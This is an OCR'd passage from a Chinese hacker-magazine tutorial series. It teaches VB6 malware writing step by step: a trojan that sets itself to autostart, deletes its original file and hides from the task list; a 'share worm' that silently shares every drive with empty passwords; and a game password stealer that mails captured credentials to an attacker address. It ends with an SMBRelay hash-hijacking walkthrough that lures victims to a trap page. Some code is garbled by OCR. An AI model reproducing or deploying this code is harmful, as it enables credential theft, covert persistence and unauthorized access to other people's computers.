End Sub
```

```vb
Private Sub Winsock1_Error(ByVal Number As Integer, Description As String, ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String, ByVal HelpContext As Long, CancelDisplay As Boolean)
    Label1.Caption = "状态：未连接上"
    Command1.Caption = "连接"
    Command2.Enabled = False
    Command3.Enabled = False
    Command4.Enabled = False
    Command5.Enabled = False
    '如果断开，以上控件又不可以使用了
End Sub
```

不过现在server没有开自己启动的功能，我们也可以给他加一个开机自动启动和屏蔽“Ctrl+Alt+Del”的功能，代码如下：

```vb
Option Explicit
'声明
'处理注册表的函数
Private Declare Function RegCreateKey& Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hkey&, ByVal lpszSubKey$, lphKey&)

Private Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" (ByVal hKey As Long, ByVal lpsubkey As String, ByVal dwtype As Long, ByVal lpdata As String, ByVal cbdata As Long) As Long

Const HKEY_LOCAL_MACHINE = &H80000002
Const REG_SZ = 1
'对hkey-local-machine\software\microsoft\currentversion\run进行操作

Private Sub Command1_Click()
    Dim skeyname As String, skeyvalue As String, skeyvalulcon As String
    Dim ret As Integer, lphkey As Long
    skeyname = "software\microsoft\windows\currentversion\run"
    skeyvalue = App.Path & IIf(Len(App.Path) > 3, "\" & "form1.exe")
    '所要启动的文件
    ret = RegCreateKey&(HKEY_LOCAL_MACHINE, skeyname, lphkey)
    ret = RegSetValue&(lphkey&, "", REG_SZ, skeyvalue, 0&)
End Sub
```

以上就是这个木马的Server端和Client端，如果上述程序代码你都明白，还可自己添加点东西，这样逐步改进，相信你的木马会有很多功能！

# 如何编写木马的隐身术

大家有没有遇到过这种情况，当执行某个程序后，发现这个程序奇迹般的消失了。这就是木马的典型表现方式。或许你会问：“这个程序怎么会有呢？木马编写者是如何编写的？”其实很简单，用VB就可轻松完成。下面我用VB来演示如何编写这样的服务端。

首先打开VB，把窗体设置成不可见(这个大家都应该会了吧！我在前面的编程文章里都提到过)。然后进入主体代码：

```vb
Private Sub Form_Load()
    Dim a
    a = App.Path + "\" + App.EXEName + ".exe"
    '获得当前可执行文件的名字
    Open "c:\windows\jiangchao.bat" For Output As #1
    '用一个批处理文件调用
    Print #1, "choice /cYN/n/t:Y,2"
    '处理时延迟2秒
    Print #1, "del" ; s
    '删除自己本身
    Print #1, "del c:\windows\jiangchao.bat"
    '然后删除这个批处理文件
    Close #1
    FileCopy a, "c:\windows\system\system.exe"
    '拷贝程序本身到c:\windows\system下，命名为system.exe
    Unload Me
End Sub
```

```vb
Private Sub Form_QueryUnload(Cancel As Integer, UnloadMode As Integer)
    Dim b
    b = Shell("c:\windows\jiangchao.bat", vbHide)
    '调用外部处理程序
    End
End Sub
```

以上代码不难理解吧？执行以上代码编写的程序，就可把自己Copy到指定目录，然后删除本身，是不是很简单啊？经过以上对木马的进化，大家是否对编程感兴趣了呢？如果感兴趣就接着往下看吧！

以上是让木马开机自启动的功能，比较厉害的用户执行完木马后发现那个程序突然消失，他不怀疑才怪呢！所以对方一定会用Ctrl+Alt+Del来查看机器里是否运行了不正常的进程，这样你的木马就很容易被发现，那怎么办呢？接下来，我教大家如何在进程栏里让木马进程消失。

这个程序比较简单，只使用了GetCurrentProcessId和RegisterServiceProcess这两个函数。

> 这种方法只能在Windows98中运行，在Windows2000中是不行的。

首先，建立一个模块（图32），默认的名字为Module1。



图32

# 黑客入门实例精讲

```vb
Public Declare Function GetCurrentProcessId Lib "kernel32" () As Long
Public Declare Function RegisterServiceProcess Lib "kernel32" (ByVal dwProcessID As Long, ByVal dwType As Long) As Long
Public Const RSP_SIMPLE_SERVICE = 1
Public Const RSP_UNREGISTER_SERVICE = 0
```

以上是模块函数，详情请阅读 MSDN。

下面的代码为隐藏部分：

```vb
Public Sub MakeMeService()
    Dim pid As Long
    Dim reserv As Long
    pid = GetCurrentProcessId()
    '取得当前运行的程序ID

    regserv = RegisterServiceProcess(pid, RSP_SIMPLE_SERVICE)
    '对当前的程序传入RSP_SIMPLE_SERVICE消息，使此程序从任务列表中隐藏
End Sub
```

恢复隐藏：

```vb
Public Sub UnMakeMeService()
    Dim pid As Long
    Dim reserv As Long
    pid = GetCurrentProcessId()
    regserv = RegisterServiceProcess(pid, RSP_UNREGISTER_SERVICE)
    '原理同上
End Sub
```

```vb
Private Sub Form_Load()
    Form1.Left = Screen.Width / 2 - Form1.Width / 2
    Form1.Top = Screen.Height / 2 - Form1.Height / 2
End Sub
```

以上就是从任务列表中隐藏程序的代码。此时你按Ctrl+Alt+Del，我们的小马也不会显示出来，是不是有点Rootkit的感觉啊😜

□□□□□□□□□□□□□□□□□□□□□□□□□□
■ 上接47页
□□□□□□□□□□□□□□□□□□□□□□□□□□

```vb
Private Sub Command1_Click()
    MAPISession1.DownLoadMail = False '不立即进入用户的收信箱(非常有用的，不信你设为True试一下)
    MAPISession1.LogonUI = True '显示一个启动对话框
    MAPISession1.SignOn '这因该算激活吧，注意，不要把FoxMail在IE中设置为默认电子邮件 否则会出现错误
    MAPIMessages1.SessionID = MAPISession1.SessionID
    MAPIMessages1.Compose '构成一条消息
    MAPIMessages1.RecipAddress = strMailAdd '收信人地址
    MAPIMessages1.ResolveName
    MAPIMessages1.RecipDisplayName = strAddName '收信人姓名

    MAPIMessages1.MsgSubject = strSubject '发信的主题
    MAPIMessages1.MsgNoteText = strNoteText '发信的内容
    MAPIMessages1.AttachmentIndex = 0 '当前附件的索引位置
    MAPIMessages1.AttachmentPathName = "c:\1.mdb" '附件的路径

    MAPIMessages1.Send '开始发送

    MAPISession1.SignOff '可以算成关闭吧
End Sub
```

好了，剩下的工作就是让你自己的传奇木马运行时隐藏起来，其实这很简单，只要阅读本书的《如何编写木马的隐身术》就可轻松完成。😜


## 用VB简单打造共享蠕虫

目前，各种突如其来的新型病毒让网络管理员防不胜防！本文主要介绍一下目前比较流行的病毒——蠕虫病毒。

“蠕虫”病毒由两部分组成：一个主程序，另一个是引导程序。主程序一旦在计算机中建立，就可去收集与当前机器相连的其他机器的信息，它能通过读取公共配置文件检测当前机器的连网状态信息，尝试利用系统的缺陷在远程机器建立引导程序。就是这个被称作引导程序或类似于“钓鱼”的小程序，把“蠕虫”病毒带入了它所感染的每一台机器中。

“蠕虫”病毒程序能常驻于一台或多台机器中，并有自动重新定位（Autorelocation）的能力。假如它能检测到网络中的某台机器没有被占用，就会把自身的一个拷贝（一个程序段）发送到那台机器。每个程序段都能把自身的拷贝重新定位于另一台机器上，并能识别出它自己所占用的那台机器。

计算机网络系统的建立是为了使多台计算机共享数据和外部资源，但同时也给计算机蠕虫病毒带来了更有利的生存和传播环境。

在网络环境下，蠕虫病毒可按指数增长模式进行传染。蠕虫病毒侵入计算机网络，可导致计算机网络效率急剧下降、系统资源遭到严重破坏，短时间内造成网络系统的瘫痪。

现在网上流行各种各样的蠕虫病毒，我这次就来教大家如何制作最简单的蠕虫——共享蠕虫，他虽然体积很小，但功能却很强大，可共享你所有的硬盘，而且是在毫不知情的情况下实现的！那么共享蠕虫是怎么实现的呢？下面就给大家说说他的原理。

大家都知道，把一个目录设置为共享时，如果在共享名后加上 $ 符号（微软把 $ 符号作为隐藏符号使用），那么这个目录就会变成一个隐含的共享目录。通过对方知道共享目录名，仍然是可以访问的，只要在这个目录后面加上 $ 符号就可以了！

虽然对方看不到这个共享目录，但自己是可见的。不过，虽然我们已加上了 $ 符号，但在这个共享目录的图标下仍然加了个小手标志，表示这个目录已被设为共享。这样使用者就会知道机器被人改动过，而共享蠕虫的高明之处就在于：不光是对方看不见这个共享目录，而且自己也看不见这个共享目录。当你把这个程序发给对方，对方执行完后，他的机器就会全部被共享，而他自己却不知道！

要做到对方看不见很容易，只要在共享目录后加上 $ 即可，而共享蠕虫程序是怎么做到连自己也看不见的呢？其实道理很简单，秘密就在注册表中！

## 黑客入门实例精讲 高 手 速 成 册

现在打开运行对话框，然后键入“Regedit”（图33）。打开注册表后找到下面的子键：



图33

```
HKEY_LOCAL_MACHINE\software\Microsoft\Windows\CurrentVersion\Network\Lanman\C$
```

在屏幕右边就可看见下面的内容：

```
Flags  0x00000302(770)
Parm1enc(长度为零的二进制值)
Parm2enc(长度为零的二进制值)
Path"c:"
Remark"Remark By Scent Lily"
Type  0x00000000(0)
```

关键的地方就是FLAG这个参数，它的键值决定了共享目录的类型。我们把FLAGS的值设为302（16进制）就可实现共享了。

看完题目之后，大家都会问，现在的蠕虫病毒不都是用Vbscript和Javascript来做的吗？为什么还要用VB来做？呵呵，其实没别的意思，因为我要教大家用多种语言来做同一种东西，这样你的编程水平才能快速提高。

首先打开VB，进入到代码区，填写如下代码：

```vb
Option Explicit
Dim WinDir As String
'定义WinDir为字符变量
Const CommonPath
= "SoftWareMicrosoftWindowsCurrent
VersionNetworkLanMan"
'声明用于代替commonpath
```

```vb
Private Sub Form_Load()
Me.Hide
'隐藏自身
Dim buff As String, DriveNo As
Integer, Result As Integer, Game
For DriveNo = 0 To 25
'遍历所有的26个驱动器

buff = Chr$(65 + DriveNo) + ":"

'取驱动器符
Result = GetDriveType(buff)
'调用API函数来获得驱动器的
类型
If Result = 3 Xor Result = 5 Then
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Flags", REG_DWORD, "770", 3
'写入共享的类型，这就是程序的关
键所在
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Type", REG_DWORD, "0", 0
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Path", REG_SZ, buff, 4
'写进共享驱动器路径
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Parm2enc", REG_BINARY, 0, 0
'写进共享目录的只读访问密码；
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Parm1enc", REG_BINARY, 0, 0
'写进共享目录的完全访问密码
setvalue HKEY_LOCAL_MACHINE,
CommonPath + Chr(65 + DriveNo)
+ "$", "Remark", REG_SZ, "Remark by
scent lily!", 21
'写入一些注释信息

End If
Next DriveNo
GetWinDir:
```

HackerXFiles 43

## 编程乐园：初识黑客入门实例精讲

```vb
'获得Windows目录路径
If Dir(WinDir & "\CDPLAYER.EXE") <> "" Then
    '如果有CD播放器，在前台执行它
    Game = Shell(WinDir & "\CDPLAYER.EXE", vbMaximizedFocus)
    Unload Me
End Sub

Public Sub GetWinDir()
    '获得Windows所在目录的子程序
    Dim Length As Long
    WinDir = String(MAX_PATH, 0)
    Length = GetWindowsDirectory(WinDir, MAX_PATH)
    WinDir = Left(WinDir, InStr(WinDir, Chr(0)) - 1)
End Sub
```

看到了吧！以上就是这个蠕虫病毒的代码，代码并不多，但表现的可是真正的蠕虫特性！如果大家对每句话进行研究的话，相信不久后大家的编程水平会有很大提高。

> 此程序编译完的是VB6.0的DLL文件，而Win98下自带的是VB5.0的DLL文件。所以如果要用VB6.0，就必须外带一个VB6.0的DLL文件；如果用VB5.0编写，执行一个.exe文件就行了，建议大家用VB5.0编写。

我教大家的只是编程思路和病毒原理，而不是如何搞破坏，请大家拿自己机器做实验，否则后果自负！



看到题目可别吓着，我们并不是编写杀毒软件，而是用批处理文件简单地做个监视自己的电脑是否中毒的程序，这些工作的确可用批处理文件来做。我编写的这个软件有什么功能呢？它可以确认机器是否感染病毒，如果感染了，就会报警。好了，我们开始进行批处理分析。

编写之前，先介绍一些批处理的常用命令，如下：

### 1. 常用命令

- **echo：** 表示显示此命令后的字符；
- **echo off：** 表示在此语句后所有运行的命令都不显示命令行本身；
- **@：** 与echo off功能相像，但@是加在其它命令行的最前面，表示运行时不显示命令行本身；
- **call：** 调用另一条批处理文件（如果直接调用别的批处理文件，执行完那条文件后，将无法执行当前文件后续命令）；
- **pause：** 运行后会暂停，显示“Press any key to continue…”等待用户按任意键后继续；
- **rem：** 表示此命令后的字符为解释行，不执行，只是给自己今后查找用。

例如：

| 命令 | 说明 |
| ---- | ---- |
| echo off | 不显示命令行 |
| dir c:\*.*>a.txt | 将c盘文件列表写入a.txt |
| call c:\ucdos\ucdos.bat | 调用ucdos |
| echo 你好 | 显示“你好” |
| pause | 暂停,等待按键继续 |
| rem | 注释将使用wps |
| cd ucdos | 进入ucdos目录 |
| wps | 使用wps |

### 2. 编写防欢乐时光的文件

防欢乐时光主文件：1.bat，
其它文件：2.bat、3.bat。

1.bat代码：

```
@if exist c:\folder.htt call 2.bat
@if exist d:\folder.htt call 2.bat
@if exist e:\folder.htt call 2.bat
@if exist f:\folder.htt call 2.bat
```

2.bat代码：

```
@echo 发现欢乐时光病毒！
@call 3.bat
@pause
```

3.bat代码：

```
@c:
@dir *.*.htt *.ini ./s/a>1.txt
@d:
@dir *.*.htt *.ini ./s/a>1.txt
@e:
@dir *.*.htt *.ini /s/a>1.txt
```

中了欢乐时光后，系统文件夹内必定会产生大量的folder.htt和Desktop.ini文件，所以我通过检查计算机是否有这两种文件来判断是否感染病毒。

### 编写防CIH的文件

下面我们来做防止CIH的批处理操作：
主要文件：cih.bat。在记事本里键入以下代码：

```
echo A100 >>jc.txt
echo MOV AH,2A >>jc.txt
echo INT 21 >>jc.txt
echo PUSH CX >>jc.txt
echo CMP DL,1A >>jc.txt
echo JNZ 0150 >>jc.txt
echo POP CX >>jc.txt
echo INC DL >>jc.txt
echo MOV AH,2B >>jc.txt
echo INT 21 >>jc.txt
echo JMP 0150 >>jc.txt
echo . >>jc.txt
echo R CX >>jc.txt
echo 54 >>jc.txt
echo Ncihtime.com >>jc.txt
echo W >>jc.txt
echo Q >>jc.txt
debug <jc.txt
```

编写完毕后存为cih.bat，让它和上面防止欢乐时光的文件一起在Autoexec.bat里调用。
以上就是利用批处理方法简单做的防范病毒的小程序，希望大家能从中学到更多的批处理命令。

HackerXFiles 45

## 编程与黑客入门实例精讲

## 用VB编写盗取传奇的密码

想必很多朋友都玩过传奇吧！这是款相当好的网络游戏，现在网上有很多盗传奇号的软件，大家是不是也想自己做一个？下面就跟着我先来了解传奇木马的原理吧！

大家如果熟悉盗QQ号软件的原理，就不难懂盗传奇号软件的原理了。这里，先给大家介绍一下VB的一个函数（SendMessage）。

函数说明：调用一个窗口的窗口函数，将一条消息发给那个窗口。除非消息处理完毕，否则该函数不会返回。SendMessageBynum，SendMessageByString是该函数的“类型安全”声明形式。

这个函数可直接盗取传奇的服务器、用户帐号和密码，功能十分强大。当玩家开始进行传奇游戏时，都得进入一个输入帐号和密码的对话框（图34）。



图34

我们的盗传奇号软件就是要对上面的这个对话框下手。先看一下相关的函数名（API文本浏览器）。

```vb
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Dim tex As String, tex2 As String, tex5 As String, tex6 As String
'以上是API函数声明

Private Sub Form_Load()
    TexServer.Text = ""
    TexPass.Text = ""
    TexUser.Text = ""
    '这里是偷服务器、帐号、密码的
End Sub

Private Sub TimMain_Timer()
    Dim HwndServer As Long
    HwndServer = FindWindow(vbNullString, "传奇客户端")
    If HwndServer <> 0 Then
        Dim ServerOwner As String, HwndCombo As Long
        ServerOwner = "TComboBox"
        HwndCombo = FindWindowEx(HwndServer, 0, ServerOwner, vbNullString)
        If HwndCombo <> 0 Then
            Dim SevLength As Long, SevCon As String
```

46 黑客X档案

## 黑客入门实例精讲 全程实例 含金量更高

```vb
SevLength = SendMessage
(HwndCombo, WM_GETTEXTLENGTH, 0, 0)
SevLength = SevLength + 1
SevCon = Space
(SevLength)
SendMessage HwndCombo,
WM_GETTEXT, SevLength, ByVal SevCon
txtServer.Text = SevCon
End If
End If
Dim HwndMain As Long
HwndMain = FindWindow(vbNullString
, "legend of mir2")
If HwndMain <> 0 Then
Dim PassOwner As String
HwndPass As Long
PassOwner = "TEdit"
HwndPass = FindWindowEx
(HwndMain, 0, PassOwner, vbNullString)
If HwndPass <> 0 Then
Dim PassLength As Long
PassCon As String
PassLength = SendMessage
(HwndPass, WM_GETTEXTLENGTH, 0, 0)
PassLength = PassLength + 1
PassCon = Space$
(PassLength)
SendMessage HwndPass
, WM_GETTEXT, PassLength, ByVal PassCon
txtPass.Text = PassCon
Dim HwndUser As Long
UserLength As Long, UserCon As String
HwndUser = GetWindow
(HwndPass, GW_HWNDNEXT)
If HwndUser <> 0 Then
UserLength =
SendMessage(HwndUser, WM_GETTEXTLENGTH, 0, 0)
UserLength = UserLength + 1
UserCon = Space
(UserLength)
SendMessage
HwndUser, WM_GETTEXT, UserLength, ByVal
UserCon
txtUser.Text =
UserCon
End If
End If
End If
End Sub
```

以上代码就是一个传奇木马抓服务器和帐号密码的主体，但如何让密码发送到指定信箱呢？这是个很重要的环节，具体编程方法如下：

- 1.所需控件：
MAP 控件（两个都要，默认 Name）
CommandButton控件（默认Name, Caption为“发送邮件”）。

- 2.声明变量如下：
Dim strMailAdd As String '收信人地址
如：vv_cool@sina.com
Dim strAddName As String '收信人姓名
如：姜超
Dim strSubject As String '发信的主题
Dim strNoteText As String '发信的内容
（这里就是所盗号的内容了）
Dim strMailToo As String '发信人地址
Dim strTooName As String '发信人姓名

### 3.程序开始

```vb
Private Sub Form_Load()
strMailAdd = "vv_cool@sina.com" '收信人地址
strAddName = "姜超" '收信人姓名
strSubject = "密码送到" '发信的主题
strNoteText =
```

下转41页

HackerXFiles 47


## 前言

本栏目的人侵文章虽然不多，但都是比较经典的技术，文章里采用了现在较流行的人侵方法，而且是非漏洞方式的人侵（对方的机器没有明显的危险漏洞，而是利用服务器配置不当造成的人侵）。这些文章的技术有90%本人都经过测试，由于这些人侵不是补丁就可弥补的，所以打补丁不太好使。读者可在网上找到很多这样漏洞的服务器。

由于大家总利用重大漏洞入侵，相应的补丁很快就会漫天飞，再想利用这个漏洞入侵就很难，而且使用别人编写的exploit自己也学不到真正的技术。所以这本书里的人侵技术非常实用、耐用！希望大家能学会其中经典的地方，不再利用过时的技术。

本人的人侵原则：各种漏洞都要了解，而利用溢出漏洞入侵只用一次，不再用已知漏洞重复做第二次入侵！

# 黑客入门实例精讲

目前的网络安全真成问题，入侵和病毒总是各企业网络的主要话题，不过最近网络上流行利用SMB会话劫持技术来入侵，这样又敲响了各企业网络的警钟。看了相关资料后，我也做了许多相应的实验，想了解一下这种攻击技术的威胁性。
最后实验的结果成功率非常大，而且威胁性极高，这也让我对网络的安全性有了新的认识，所以笔者就关于这方面的技术写了一次渗透实验过程。



自己安装Win2K Server（架设IIS 5.0），外部Win2K PRO来访问Server机。

SMBRELAY（嗅探HASH所需软件）、L0phtCrack（破解密码散列的软件）
（注：这两个软件光盘中有收录）

| 参数 | 说明 |
| --- | --- |
| /D | 设置调试登级，可选择0，1，2。默认是0 |
| /E | 列举本机网卡的接口，转发数据时，如果这里没选择好，可能什么都抓不到 |
| /L | 设定在添加本地IP地址时，使用的网卡接口号 |
| /R | 设定在添加代理IP地址（就像使用了smbporxy的那种IP地址）时，使用的网卡接口号，默认是1 |

HASH是密码的加密形式，也称密码散列。用SMBRELAY可嗅探到密码的HASH数据。SMBRELAY可得到L\HASH、NT HASH、NT SERV-CHALL、LM CLI-CHALL等数据。

202.101.100.10（本机IP）
202.101.100.20（SMBRELAY挂接的IP）
202.101.100.30（要劫持的IP）
以上真实IP均修改过（我测试环境的3台机器都在一个机房，并且连接到Internet）。

我们在本地的Win2K Server（IIS 5.0）上建立一个网页。

```html
<html>
<title>劫持HASH实验</title>
<body>
</img>
</body>
</html>
```



这里的202.101.100.20是另一个机器，因为SMBRELAY不能直接运行在本地IP上，所以我用SMBRELAY挂接到202.101.100.20。

接下来给大家介绍SMBRELAY的用法吧！
SMBRELAY参数：
/D —设置调试登级，可选择0，1，2。默认是0；
/E —列举本机网卡的接口，转发数据时，如果这里没选择好，可能什么都抓不到；/L —设定在添加本地IP地址时，使用的网卡接口号；
/R NU —设定在添加代理IP地址（就像使用了smbporxy的那种IP地址）时，使用的网卡接口号，默认是1。你可使用/E参数来列举网卡的接口号；

## 网络安全入门与黑客入门实例精讲

- **/L[+] IP** — 设定要接收NetBIOS信息的本地IP地址。使用“+”是为了设置第一次在NIC（网络接口卡）中添加的IP地址，默认是使用本机的当前IP地址；
- **/R[-] IP** — 设定代理IP地址的起始端；
- **/S name** — 设定原始机器（诱饵IP）的名字，默认是CDC4EVER。
具体使用SMBRELAY请看详细说明。

好了，下面我们来开本机的CMD窗口。使用如下命令：

```
c:\>smbrelay.exe /L+ 202.101.100.20 /R - 202.101.100.20
SMBRelay v0.981 - TCP (NetBT) level
SMB man-in-the-middle relay attack
Copyright 2001 : Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
Using local adapter index 2, PCI Bus Master Adapter
Local IP address added to interface 2
Bound to port 139 on address 202.101.100.20
Connection from 202.101.100.10:4762
Error receiving data from incoming connection
Termination requested
Deleted incoming IP address
Exiting main
C:\>
```

绑定端口完毕，接下来开始我们的SMB会话劫持技术。我连上了202.101.100.30这个机器，然后登陆到202.101.100.10（说明：要想让对方登陆你的陷阱网页，就要看你的社会工程学怎样了，这里我不教大家怎么去骗，自己去想）。由于我在网页里运用了``，所以一打开网页，就直接转到202.101.100.20/jiangchao.jpg里去了。

OK，202.101.100.30已看到那个网页了，接下来我要看看SMBRELAY有没有劫持到202.101.100.30的密码散列。
我在202.101.100.10的CMD里运行如下命令：

```
c:\>smbrelay.exe /L+ 202.101.100.20 /R - 202.101.100.20
SMBRelay v0.981 - TCP (NetBT) level
SMB man-in-the-middle relay attack
